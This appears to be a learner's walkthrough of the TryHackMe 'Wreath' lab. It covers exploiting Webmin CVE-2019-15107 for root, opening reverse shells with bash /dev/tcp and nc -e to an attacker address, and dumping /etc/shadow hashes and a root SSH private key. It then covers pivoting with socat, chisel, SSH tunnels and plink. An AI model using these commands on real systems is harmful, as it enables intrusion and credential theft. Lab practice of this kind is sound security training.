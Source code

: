# Wreath

Learn how to pivot through a network by compromising a public facing web machine and tunnelling your traffic to access other machines in Wreath's network. (Streak limitation only for non-subscribed users)

https://tryhackme.com/room/wreath

## 1. Background

<details>
  <summary>---</summary>

> *There are two machines on my home network that host projects and stuff I'm working on in my own time -- one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference.*

- 3 machines on the network
- At least one public facing webserver
- Self hosted git server on the network
- git server is internal. There may be sensitive information to find
- PC on the network with AV installed - likely Windows
- Windows PC cannot be directly access from the webserver 

</details>

## 2. Webserver enumeration

<details>
  <summary>---</summary>

![Network map](./wreath-network.png)

### Initial scan

Start with nmap

We find there are 4 ports open

```
nmap -p-15000 10.200.81.200 -oN initial.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-05 02:14 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).
Not shown: 14995 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   open   https
9090/tcp  closed zeus-admin
10000/tcp open   snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 118.64 seconds
```

### Server OS

Find out what OS is running on the webserver - `centos`

```
nmap -p 80 -sV 10.200.81.200 -oN port80.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-04 02:00 EDT
Nmap scan report for 10.200.81.200
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
                                                                       
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                
Nmap done: 1 IP address (1 host up) scanned in 9.79 seconds
```

### Check out the web page

Opening `10.200.81.200` on a web browser redirects to `https://thomaswreath.thm/`

![Failed to resolve](./failed-resolve.png)

Fix this by editing `/etc/hosts` for Linux/Mac or `C:\Windows\System32\drivers\etc\hosts` on Windows.

`/etc/hosts` file
```
cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.200.81.200   thomaswreath.thm

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

With DNS resolving properly, we can now access the webserver and see if we can find any interesting information

We can see interesting info such as 
- Home address
- Home and mobile numbers `+447821548812 `
- Email address


### Check out port 10000 service

nmap scan reveals server version `MiniServ 1.890 (Webmin httpd)`
```
nmap -p 10000 -sV 10.200.81.200 -oN port10000.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-04 04:48 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).

PORT      STATE SERVICE VERSION
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.69 seconds
```

Vuln scan
```
nmap -p 10000 --script vuln 10.200.81.200 -oN port10000vuln.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-04 04:51 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).

PORT      STATE SERVICE
10000/tcp open  snet-sensor-mgmt
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-vuln-cve2006-3392: 
|   VULNERABLE:
|   Webmin File Disclosure
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2006-3392
|       Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML.
|       This allows arbitrary files to be read, without requiring authentication, using "..%01" sequences
|       to bypass the removal of "../" directory traversal sequences.
|       
|     Disclosure date: 2006-06-29
|     References:
|       http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392
|_      http://www.exploit-db.com/exploits/1997/
|_sslv2-drown: 

Nmap done: 1 IP address (1 host up) scanned in 24.00 seconds
```

Quick Google search reveals this server version is vulnerable to `CVE-2019–15107`

</details>

## 3. Webserver Exploitation

<details>
  <summary>---</summary>

Exploit can be downloaded and run from `https://github.com/MuirlandOracle/CVE-2019-15107`

pip is required to install dependencies `cd CVE-2019-15107 && pip3 install -r requirements.txt`

```
./CVE-2019-15107.py 10.200.81.200

        __        __   _               _         ____   ____ _____     
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|    
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|      
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___     
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|     
                                                                       
                                                @MuirlandOracle        
                                                                       
                                                                       
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.81.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                     
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# id                                                                   
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0

```

This is just a pseudo shell. Create a reverse shell by:

1. New terminal start a nc listener

```
nc -lvnp 1337
```

2. On the pseudo shell run a reverse bash command
   
```
/bin/bash -i >& /dev/tcp/10.50.82.56/1337 0>&1 
```

If `nc` is available you can run this

```
nc -e /bin/sh 10.50.82.56 1337 
```

3. Back on the listener terminal, we have reverse shell

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45242          
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell                                     
[root@prod-serv ]# id                                                  
id                                                                     
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
```

### Stabilise the shell

1. Spawn PTY with python

```
[root@prod-serv ]# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
[root@prod-serv ]# 
```

2. Background the shell with `CTRL Z`. Then examine current terminal and STTY info

```
[root@prod-serv ]# ^Z
[1]+  Stopped                 nc -lvnp 1337
kali@kali:~$ echo $TERM
xterm-256color

kali@kali:~$ stty -a
speed 38400 baud; rows 54; columns 185; line = 0;
intr = ^C; quit = ^\; erase = ^H; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V;
discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl -ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc

```
> This reveals term type: `xterm-256color` and the size of current TTY: `rows 54; columns 185`

while the shell is in the background, run `stty raw -echo` then `fg` and `export TERM=xterm`

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45248
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell
[root@prod-serv ]# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
[root@prod-serv ]# ^Z
[1]+  Stopped                 nc -lvnp 1337
kali@kali:~$ stty raw -echo
kali@kali:~$ nc -lvnp 1337
                          export TERM=xterm
[root@prod-serv ]# 
```

> Note `nc -lvnp 1337` was not typed. It was `fg` but not echoed back

The shell is now stabilised

Summary:
1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. `CTRL Z`
3. `stty raw -echo`
4. `fg`
5. `export TERM=xterm`

### Dump password hash

```
cat /etc/shadow
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::
bin:*:18358:0:99999:7:::
daemon:*:18358:0:99999:7:::
adm:*:18358:0:99999:7:::
lp:*:18358:0:99999:7:::
sync:*:18358:0:99999:7:::
shutdown:*:18358:0:99999:7:::
halt:*:18358:0:99999:7:::
mail:*:18358:0:99999:7:::
operator:*:18358:0:99999:7:::
games:*:18358:0:99999:7:::
ftp:*:18358:0:99999:7:::
nobody:*:18358:0:99999:7:::
dbus:!!:18573::::::
systemd-coredump:!!:18573::::::
systemd-resolve:!!:18573::::::
tss:!!:18573::::::
polkitd:!!:18573::::::
libstoragemgmt:!!:18573::::::
cockpit-ws:!!:18573::::::
cockpit-wsinstance:!!:18573::::::
sssd:!!:18573::::::
sshd:!!:18573::::::
chrony:!!:18573::::::
rngd:!!:18573::::::
twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::
unbound:!!:18573::::::
apache:!!:18573::::::                                                                                                                                                                    
nginx:!!:18573::::::                                                                                                                                                                     
mysql:!!:18573:::::: 
```

### Find interesting access keys

SSH keys are commonly stored in the home directory under `~/.ssh`

```
ls -la ~/.ssh
total 16
drwx------. 2 root root   80 Jan  6 03:29 .
dr-xr-x---. 3 root root  228 Apr  4 10:20 ..
-rw-r--r--. 1 root root  571 Nov  7 14:05 authorized_keys
-rw-------. 1 root root 2602 Nov  7 14:02 id_rsa
-rw-r--r--. 1 root root  571 Nov  7 14:02 id_rsa.pub
-rw-r--r--. 1 root root  345 Apr  3 07:54 known_hosts
```

Since we are root, we have read access to the private key `id_rsa`. Save the key locally

```
cat .ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs0oHYlnFUHTlbuhePTNoITku4OBH8OxzRN8O3tMrpHqNH3LHaQRE
LgAe9qk9dvQA7pJb9V6vfLc+Vm6XLC1JY9Ljou89Cd4AcTJ9OruYZXTDnX0hW1vO5Do1bS
...
YlXRN11U6IKYQMTQgXDcZxTx+KFp8WlHV9NE2g3tHwagVTgIzmNA7EPdENzuxsXFwFH9TY
EsDTnTZceDBI6uBFoTQ1nIMnoyAxOSUC+Rb1TBBSwns/r4AJuA/d+cSp5U0jbfoR0R/8by
GbJ7oAQ232an8AAAARcm9vdEB0bS1wcm9kLXNlcnYBAg==
-----END OPENSSH PRIVATE KEY-----
```

Copy it to local machine and change file permission to suit SSH standards

```
kali@kali:~/thm/wreath/.ssh$ chmod 600 id_rsa 
kali@kali:~/thm/wreath/.ssh$ ls -la
total 12
drwxr-xr-x 2 kali kali 4096 Apr  4 05:30 .
drwxr-xr-x 4 kali kali 4096 Apr  4 05:30 ..
-rw------- 1 kali kali 2602 Apr  4 05:30 id_rsa
```

> Note: if you dont change the permission of the key, you wont be able to use it

```
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
root@10.200.81.200: Permission denied (publickey,gssapi-keyex,gssapi-with-mic).
```

Now we can just use this key to ssh straight into the webserver

```
ssh -i id_rsa root@10.200.81.200
[root@prod-serv ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

</details>

## 4. Pivoting

<details>
  <summary>---</summary>

### Definition

Pivoting is using access obtained over one machine to exploit another machine deeper in the network.

The technique involves gaining initial access to a remote network, and use it to access other machines

![pivoting](pivoting.png)

Above there are four machines on the target network
- 1 public facing server
- 3 machines not exposed to the internet

By accessing the public server, it is then possible to pivot to attack the other 3 targets.

### Methods

Methods varies depending on OS

Two main methods:

1. Tunnelling/Proxying

Creating proxy connection through compromised machine. 
This could be tunnelled inside another protocol (eg. SSH tunnelling) which is useful in evading basic intrusion detection system or firewall

Proxying is preferred when there is need to redirect lots of different kinds of traffic to target network eg. nmap scan or access multiple ports on multiple different machines

2. Port forwarding

Creating a connection between local port and single port on a target via compromised host

Port forwarding tends to be faster and more reliable but only allow access to a single port (or small range) on a target device

Example pivoting tools

- Enumerating a network using native and statically compiled tools
- Proxychains / FoxyProxy
- SSH port forwarding and tunnelling (primarily Unix)
- plink.exe (Windows)
- socat (Windows and Unix)
- chisel (Windows and Unix)
- sshuttle (currently Unix only)

</details>

## 5. Pivoting Enumeration

<details>
  <summary>---</summary>

### Enumerate compromised host

In order of preferences

1. Using materials found on the machine eg. ARP cache, hosts file, DNS server
2. Using pre-installed tools
3. Using statically compiled tools
4. Using scripting techniques
5. Using local tools through proxy

Local tools can be slow and should be last resort

### Checking arp cache

ARP cache can be found on Windows or Linux. This will show any IP addresses of hosts that target has interacted with recently

```
arp -a
```

### Check static mapping

Found in `/etc/hosts` or `C:\Windows\System32\drivers\etc\hosts` 

Linux local DNS found in `/etc/resolv.conf` or `nmcli dev show` - can be misconfigured to allow DNS zone transfer attack
Windows DNS server can be checked with `ipconfig /all`

### Check if nmap installed

If no nmap write a script 

ICMP ping scan 
```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done
```

Port scanning - takes a long time however
```
for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

### Example static binaries

These binaries can be uploaded to the compromised machine to run. See Pivoting - Socat for more instructions

[socat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)
[other binaries](https://github.com/andrew-d/static-binaries)

</details>

## 6. Proxychains and FoxyProxy

<details>
  <summary>---</summary>

### Proxychains

Prepend other commands. Proxychains uses config file in `./proxychains.conf`, `~/.proxychains/proxychains.conf`, or `/etc/proxychains.conf` 

```
proxychains nc 172.16.0.10 23
```

Multiple servers can be used to chain all proxies together
in `proxychains.conf`
```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

Comment out `proxy_dns` line when doing nmap scans through proxy chains as this can cause the scan to hang

```
# Proxy DNS requests -no leak for DNS data
# proxy_dns
```

Other things to note
- Only TCP scans - no UDP or SYN scans
- ICMP echo packets (ping) will not work, use -Pn to prevent nmap
- It will be slow. Try only use nmap through a proxy when using the NSE (use static binary to see open ports/hosts before proxying a local copy of nmap to use the scripts library)

### FoxyProxy

Better with web browser. Popular with Burp and ZAP

</details>

## 7. Pivoting SSH Tunnelling / Port Forwarding

<details>
  <summary>---</summary>

### Forward connections

Creating a forward (local) SSH tunnel done on attacking box when we have SSH access to the target. Two ways: `port forwarding` or `creating a proxy`

1. Port Forwarding

`-L` : enables port forwarding. Link to local port
`-f` : backgrounds terminal immediately
`-N` : tells SSH theres no commands to be executed only set connection

Eg.
- We have access to SSH 172.16.0.5
- Web server on 172.16.0.10
- Attacking machine: `ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN`
- This means we can access webserver `172.16.0.10` by visiting `localhost:8000` on a web browser through SSH tunnel from `172.16.0.5`

2. Creating a proxy

`-D [port]` : open up a port on attacking box as a proxy to send data to protected network. Useful when combined with proxychains

eg.
`ssh -D 1337 user@172.16.0.5 -fN`

### Reverse connections

Preferable if you have shell on server but not SSH access.
This is however riskier as you must access your attacking machine from the target by credentials or better yet key based system

1. Generate ssh keys `ssh-keygen`

```
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): ./reverse
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./reverse
Your public key has been saved in ./reverse.pub
The key fingerprint is:
SHA256:DmgoQJUIMyG6qW2F8zRMWQgFR/BfW37m2+MWYGttQNk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|Bo*B=..      o   |
|++ +.o      o E  |
|o   +   . ..     |
|.o = o . +  +    |
|+ + B o S ..o=   |
|.o * . o   +o +  |
|. o .   .  ... . |
| .           oo  |
|            .oo. |
+----[SHA256]-----+
```

2. Copy public key (`.pub` file) then edit `~/.ssh/authorized_keys`
3. New line: `command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty` then paste the public key. This is to ensure the key only used for port forwarding. Stopping ability to gain a shell on attacking machine
4. Check if SSH server running `sudo systemctl status ssh
```
sudo systemctl status ssh
[sudo] password for kali: 
● ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/lib/systemd/system/ssh.service; disabled; vendor preset: disabled)
     Active: inactive (dead)
       Docs: man:sshd(8)
             man:sshd_config(5)
```

SSH service can be started with
```
sudo systemctl start ssh
```

5. Lastly transfer the private key to the target box. This is usually an absolute no-no. This is why we generate a throwaway set of SSH keys to be discarded as soon as the engagement is over
6. We can finally connect back with a reverse prot forwarding using

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

For example:
- Web server 172.16.0.10 
- Shell'd server 172.16.0.5 
- Attacking box 172.16.0.20

On the shell'd server
```
ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN
```

On newer client the reverse proxy creation can be done with `-D`
```
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

To kill any connections use `ps aux | grep ssh` then `sudo kill PID`

</details>

## 8. Pivoting - plink.exe

<details>
  <summary>---</summary>

Plink.exe is a windows command line version of PuTTY SSH client. This was created before Windows had its own inbuilt SSH client.

Windows servers are unlikely to have an SSH server running so the use of plink is to transport binary to the target, then using it to create a reverse connection

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

`cmd.exe /c echo y` : non-interactive shells to get around warning message for never previously connected host

If we have access to 172.16.0.5 and forwarding connection to 172.16.0.10:80 back to port 8000 on the attacking machine 172.16.0.20

```
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```

Keys generated by `ssh-keygen` wont work here however. It will need to be converted by `puttygen` tool, installed by `sudo apt install putty-tools` then run `puttygen KEYFILE -o OUTPUT_KEY.ppk`. 

The .ppk file then can be transferred to Windows and used the same way as reverse port forwarding

plink is preinstalled on Kali at `/usr/share/windows-resources/binaries/plink.exe` but should be updated before engagement from https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html

</details>

## 9. Pivoting - Socat

<details>
  <summary>---</summary>

Socat:
- Great for fully stable Linux shells
- Port forwarding.
- However, rarely installed on target
- Unlikely to bypass AV in Windows
- Makes a good relay

For example: trying to get shell on a target without direct connection. Use socat to set up a relay on the compromised machine. This listens for the reverse shell from target and forwards to attacking box

![socat as a relay](socat.png)

Above we create a port forward from a port on the compromised server to a listening port on our attacker box. The other way is also possible: either forwarding a connection from attacking machine to a target inside network; or creat a direct link between listening port on attacking machine with service on the internal server. The latter is useful as it does not require opening a port to compromised server.

To download binary for socat:

1. Set up python web server on attacking machine (in the directory with socat binary)

```
sudo python3 -m http.server 80
```

2. Download on target machine with curl

```
curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```

Example

Attacking machine
```
kali@kali:~/thm/wreath$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.200.81.200 - - [05/Apr/2021 02:40:22] "GET /socat-Neozer0 HTTP/1.1" 200 -
10.200.81.200 - - [05/Apr/2021 02:41:13] "GET /nc-Neozer0 HTTP/1.1" 200 -

```

Compromised webserver
```
root@prod-serv tmp]# curl 10.50.82.56/socat -o /tmp/socat-Neozer0 && chmod +x /tmp/socat-Neozer0
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  369k  100  369k    0     0   224k      0  0:00:01  0:00:01 --:--:--  224k

[root@prod-serv tmp]# ls -la socat-N*
-rwxr-xr-x. 1 root root 378384 Apr  5 05:08 socat-Neozer0
```

### Reverse shell relay

Start a listener in attacking machine
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 443
listening on [any] 443 ...

```

run socat on compromised webserver
```
[root@prod-serv tmp]# ./socat-Neozer0 tcp-l:8000 tcp:10.50.82.56:443 &
[1] 2136
```

`tcp-l:8000` : create first half of the connection - an IPv4 listener on tcp port 8000 of target machine
`tcp:ATTACKING_IP_443` : connects back to our local IP on port 443
`&` : backgrounds the listener while we can still use the shell for other commands

Create reverse shell on newly opened port 8000

```
chmod +x ./nc-Neozer0

./nc-Neozer0 127.0.0.1 8000 -e /bin/bash

```

Back on attacking machine we have a reverse shell

```
sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 41630
whoami
root
id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:9b:ca:22:d5:ab brd ff:ff:ff:ff:ff:ff
    inet 10.200.81.200/24 brd 10.200.81.255 scope global dynamic noprefixroute eth0
       valid_lft 2072sec preferred_lft 2072sec
    inet6 fe80::9b:caff:fe22:d5ab/64 scope link 
       valid_lft forever preferred_lft forever
```

### Port forwarding -- easy

The quick and easy way is to open up a listening port on compromised server and redirect whatever traffic it receives to target server

For example, compromise server 172.16.0.5 and target port 3306 of 172.16.0.10 then we could run `./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &`. This opens port 33060 on compromised server and redirects input from attacking machine straight to target server 172.16.0.10 port 3306 (MySQL database)

`fork` : put every connection into new process
`reuseaddr` : port stays open after connection is made
`&` : backgrounds the shell, keep using same terminal session

Above options combined allow us to use the same port forward for more than one connection.

We can now connect to port 33060 on the relay 172.16.0.5 and connection directly relayed to our target 172.16.0.10:3306

![port forwarding easy diagram](port-forward-easy.jpg)

### Port forwarding -- quiet

If we want to avoid opening a port and potentially alert any host/network scanning, we can use a quieter method of port forwarding with socat. This is slightly more complex.

1. Open up two port listeners on the attacking machine

Attacking machine
```
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
```

This opens up two ports 8000 and 8001, creating port relay

2. Start a relay on compromised server

Compromised relay server
```
./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &
```

This makes connection between our listening 8001 on attacking machine and open port on target server

For example, 

```
./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &
```

This creates a link between port 8000 on attacking machine and port 80 on intended target 172.16.0.10. If we go to localhost:8000 on our attacking machine's web browser, it would load the webpage served by target 172.16.0.10:80.

Summary visiting webpage on attacking server:
- Request goes to 127.0.0.1:8000
- Socat listener, anything goes into port 8000, comes out of port 8001
- Port 8001 is connected directly to socat porcess on the compromised server. Anything coming out of port 8001 gets sent to compromised server and relayed to port 80 on target server

Summary target sends response:
- Response sent to socat process on compromised server. What goes in process comes out to port 8001 on our attacking machine
- Anything goes in port 8001 on attacking machine comes out of port 8000 which is where web browser expects to receive its response

![port forwarding quiet diagram](port-forward-quiet.jpg)

### Killing backgrounded socat port forwards

`jobs` : run command to see socat processes
`kill %NUMBER` : kill socat process

```
kali@kali:~$ socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
[1] 6453
kali@kali:~$ jobs
[1]+  Running                 socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
kali@kali:~$ kill %1
kali@kali:~$ jobs
[1]+  Exit 143                socat tcp-l:8001 tcp-l:8000,fork,reuseaddr
```

### Examples

- Attacking IP 172.16.0.200
- relay a reverse shell to TCP port 443 on Attacking Machine

`./socat tcp-l:8000 tcp:172.16.0.200:443`

- Forward TCP port 2222 on a compromised server, to 172.16.0.100:22 (easy method)

`./socat tcp-l:2222,fork,reuseaddr tcp:172.16.0.100:22 &`


</details>

## 10. Pivoting - Chisel

<details>
  <summary>---</summary>

Tool to set up tunnelled proxy / port forward through a compromised system. Dont need SSH access on compromised server.

Download chisel binary from github and transfer to comrpomise webserver

Use scp

`scp -i [KEY] [FILE] user@address:/[PATH to save file]`

```
scp -i ssh/webserver_id_rsa chisel/chisel_1.7.6_linux_amd64  root@10.200.81.200:/tmp/chisel-Neozer0
chisel_1.7.6_linux_amd64                                100% 8144KB 677.9KB/s   00:12  
```

Chisel has two main uses: SOCKS proxy and port forwarding
```
./chisel-Neozer0 --help | head -19

  Usage: chisel [command] [--help]

  Version: 1.7.6 (go1.16rc1)

  Commands:
    server - runs chisel in server mode
    client - runs chisel in client mode

  Read more:
    https://github.com/jpillora/chisel
```

### Reverse SOCKS proxy

This connects back from compromised server to a listener on attacking machine

Attacking machine

```
./chisel server -p LISTEN_PORT --reverse &
```

Compromised host
```
./chisel client ATTACKING_IP:LISTEN_PORT R:socks &
```

`R:socks` - remotes

Example

Attacking machine
```
kali@kali:~/thm/wreath$ chisel/chisel_1.7.6_linux_amd64 server -p 1337 --reverse &
[1] 8176
kali@kali:~/thm/wreath$ 2021/04/07 05:35:30 server: Reverse tunnelling enabled
2021/04/07 05:35:30 server: Fingerprint N8c7Wp59pZ7WNPRo4aVUU4MlhLOeauxzPIrIpMpfpZQ=
2021/04/07 05:35:30 server: Listening on http://0.0.0.0:1337
2021/04/07 05:37:12 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

Notice proxy opened on 127.0.0.1:1080 - this is where we will send data through the proxy


Compromised host
```
[root@prod-serv tmp]# ./chisel-Neozer0 client 10.50.82.56:1337 R:socks &
[2] 2076
[root@prod-serv tmp]# 2021/04/07 10:37:11 client: Connecting to ws://10.50.82.56:1337
2021/04/07 10:37:13 client: Connected (Latency 262.021143ms)
```

### Forward SOCKS proxy

Less common than reverse proxies.
Like bind shells are less common than reverse shells.

Egress firewalls are less stringent than ingress firewalls

Compromised host
```
./chisel server -p LISTEN_PORT --socks5
```

Attacking box
```
./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks
```

`PROXY_PORT` - port opened for proxy

Example
```
./chisel client 172.16.0.10:8080 1337:socks
```

Connect to a chisel server running on port 8080 of 172.16.0.10.
SOCKS proxy would open on port 1337 of attacking machine

> Note: Proxychains config needs to be updated to SOCKS5 proxy to work with Chisel

```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

### Remote port forward

Connect back from compromised target to create the forward

Attacking box
```
./chisel server -p LISTEN_PORT --reverse &
```

Compromised server
```
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```

`LISTEN_PORT` - port chisel server start on

`LOCAL_PORT` - port open on our attacking machine linked to target port

Example

Attacking box: 172.16.0.20
Compromised server: 172.16.0.5
Target: 172.16.0.10:22

To forward 172.16.0.10:22 back to port 2222 on attacking machine
```
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```

Attacking box
```
./chisel server -p 1337 --reverse &
```

This would allow access to 172.16.10:22 via SSH by navigating to 127.0.0.1:2222

### Local port forward

Connect from attacking machine to chisel server listening on a compromised target

Compromised target
```
./chisel server -p LISTEN_PORT
```

Attacking box
```
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

Example

Connect to 172.16.0.5:8000 (compromised host running chisel), forwarding our local port 2222 to 172.16.0.10:22 (intended target)
```
./chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```

> ./chisel client 172.16.0.100:3306 R:socks:172.16.0.200:1337 &

### Examples

- Use port 4242 for the listener and do not background the process.

`./chisel server -p 4242 --reverse`

- Connect back to this server with a SOCKS proxy from a compromised host
- Your IP 172.16.0.200 
- Backgrounding the process

`./chisel client 172.16.0.200:4242 R:socks &`

